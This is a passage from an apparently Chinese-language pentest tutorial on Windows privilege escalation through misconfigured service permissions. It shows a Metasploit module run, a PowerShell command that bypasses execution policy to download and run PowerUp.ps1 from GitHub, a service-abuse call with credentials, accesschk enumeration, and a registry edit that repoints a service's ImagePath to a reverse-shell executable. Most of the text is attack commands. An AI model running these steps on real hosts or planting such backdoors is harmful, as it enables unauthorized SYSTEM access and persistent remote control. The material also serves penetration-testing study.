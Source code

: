 ```bash
use exploit/windows/local/service_permissions
set AGGRESSIVE true
set session 1
exploit
```

**PowerSploit**

```powershell
powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"

powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt

powershell.exe -exec bypass -Command "& {Import-Module C:/PowerUp.ps1;Invoke-ServiceAbuse -Name 'xxxx' -Username user -Password 123456}"
```

- ServiceName：可能存在漏洞的服务
- Path：该服务的可执行程序的路径
- StartName：服务运行账号
- AbuseFunction：利用方式

#### 服务注册表权限脆弱

如果低权限用户对系统服务的注册表具有写入权限，就可以通过修改服务的启动路径进行提权，思路与权限配置错误一直，修改ImagePath

在目标主机执行

```
accesschk.exe /accepteula -uvwqk "xxxxx" HKLM\SYSTEM\CurrentControlSet\Services   ///xxxx为用户名或组
```

![4](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/prive-long/4.png)

假设当前用户对一个名为aaa的服务具有完全控制权，可以通过修改该服务的ImagePath为我们上传的后门程序

```
reg add HKEY_MACHINE\SYSTEM\CurrentControlSet\Services\aaa /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /k C:\Users\PUblic\reverse_tcp.exe" /f
```

执行命令查看该用户是否具有重启该服务的权限

```
accesschk.exe /accepteula -ucqv "xxxx" aaa
```

如果有重启服务即可，若无尝试重启系统或计算机

#### 服务路径权限可控

如果低权限者对高权限者启动的服务路径具有可写权限，可以通过直接替换启动文件进行提权

执行命令查看对某服务的路径是否有可写权限

```
accesschk.exe /accepteula -quv "C:\Program Files\Insecure Executables\"
```
